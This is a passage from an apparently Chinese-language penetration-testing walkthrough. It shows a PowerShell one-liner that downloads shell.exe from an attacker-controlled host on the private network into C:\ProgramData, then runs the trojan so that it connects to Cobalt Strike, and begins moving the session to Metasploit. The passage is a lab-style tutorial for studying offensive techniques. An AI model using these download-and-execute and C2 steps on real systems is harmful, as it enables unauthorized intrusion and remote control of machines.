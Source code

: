 获取的反弹 shell 中执行



```


|  | powershell iex(new-object system.net.webclient).downloadfile('http://192.168.111.10:8000/shell.exe','c:\programdata\shell.exe') |
| --- | --- |
|  |  |


```


> 简单解释：通过 iex（Invoke\-Expression）执行字符串的命令，用 webclient 发送 http 请求，下载 shell.exe 文件到机器上的 programdata 目录


![image-20240926122335854](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184039467-804906869.png)


看到请求成功了，但是我们的 shell 死掉了，我们结束掉 shell，再次反弹一下


![image-20240926122516903](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184039520-1929184524.png)


看到了我们上传的木马


运行



```


|  | .\shell.exe |
| --- | --- |
|  |  |


```

![image-20240926122630760](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184038973-192592434.png)


成功上线到 cs


### 2）上线 msf


#### a）直接转移(失败)


将 cs 会话迁移到 msf 上


**在 msf 上**
